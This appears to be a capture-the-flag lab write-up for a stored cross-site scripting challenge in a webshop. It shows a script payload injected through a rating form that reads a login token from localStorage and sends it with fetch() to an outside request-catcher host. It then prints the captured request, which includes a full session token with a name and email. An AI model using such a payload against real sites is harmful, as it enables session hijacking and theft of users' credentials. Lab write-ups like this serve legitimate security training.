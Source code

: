 We got the following hints:

- we need to login
- localStorage.getItem('key') to get a key object
- We can use a GET or POST to send the authentication token, the easiest way is the fetch API

First i logged in and looked at the cookies. Conveniently there is only one cookie that probably is the session cookie:
`chatUser: 5aa0481e876d9d39d439785c`

We can now use the rating form and the request catcher to send it to the request fetcher:

```
<script>
fetch('https://9b591611-dc97-4e7d-af00-9531dd7b3114.i.vuln.land/x?token='
      + encodeURIComponent(localStorage.getItem('token')), {method:'GET', mode:'no-cors'});
</script>
```

We can now validate it with the second user:

```
URL: http://9b591611-dc97-4e7d-af00-9531dd7b3114.i.vuln.land/x?token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTc2MDQ3NTA0MSwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.02V9Qtci2rj9U_dOaLAEuyDbSGzMJ6WGQ0P1brQ7l6k"
METHOD: GET
IP: 10.2.0.1
Time: 2025-10-14 21:17:26
Headers:
Host: 9b591611-dc97-4e7d-af00-9531dd7b3114.i.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Priority: u=4
Referer: https://20a70a84-598f-4b95-9965-b661e77365df.i.vuln.land/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 213.55.187.92
X-Forwarded-Host: 9b591611-dc97-4e7d-af00-9531dd7b3114.i.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: traefik.vuln.land
X-Real-Ip: 213.55.187.92


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTc2MDQ3NTA0MSwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.02V9Qtci2rj9U_dOaLAEuyDbSGzMJ6WGQ0P1brQ7l6k%22'
===================================================
```
